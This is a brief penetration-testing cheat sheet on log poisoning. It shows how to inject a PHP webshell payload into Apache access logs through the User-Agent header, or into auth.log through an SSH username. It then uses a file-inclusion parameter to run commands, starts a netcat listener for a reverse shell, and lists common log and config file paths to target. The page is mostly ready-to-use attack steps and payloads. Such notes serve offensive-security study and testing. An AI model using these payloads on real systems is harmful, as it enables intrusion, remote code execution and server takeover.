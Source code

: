```yaml
---
title: "Log Poisoning"
draft: false
images: []
menu:
  docs:
    parent: "Web Pentest"
weight: 100
toc: true
---
```


## LOGS
* GET /browse.php?file=/var/log/httpd-access.log&cmd=revshell
* User Agent: Mozilla/5.0<?php system($_GET['cmd']); ?> Gecko ...
* nc -lvp 1234

**Note:** Remember to url encode the reverse shell
## SSH
* Try login ssh like this ssh '<?php system($_GET['cmd']); ?>'@10.10.10.10
* GET /browser.php?file=/var/log/auth.log&cmd=revshell
* nc -lvp 1234

**Note:** Remember to url encode the reverse shell
## COMMON LOG FILE LOCATION

### Ubuntu, Debian
```
/var/log/apache2/error.log
/var/log/apache2/access.log
```
### Red Hat, CentOS, Fedora, OEL, RHEL
```
/var/log/httpd/error_log
/var/log/httpd/access_log
```
### FreeBSD
```
/var/log/httpd-error.log
/var/log/httpd-access.log
```
### Ubuntu
```
/etc/apache2/apache2.conf
/etc/apache2/httpd.conf
/etc/apache2/apache2.conf
/etc/httpd/httpd.conf
/etc/httpd/conf/httpd.conf
```
### FreeBSD
```
/usr/local/etc/apache2/httpd.conf
/etc/apache2/sites-enabled/000-default.conf
/proc/self/environ
/proc/self/environ
```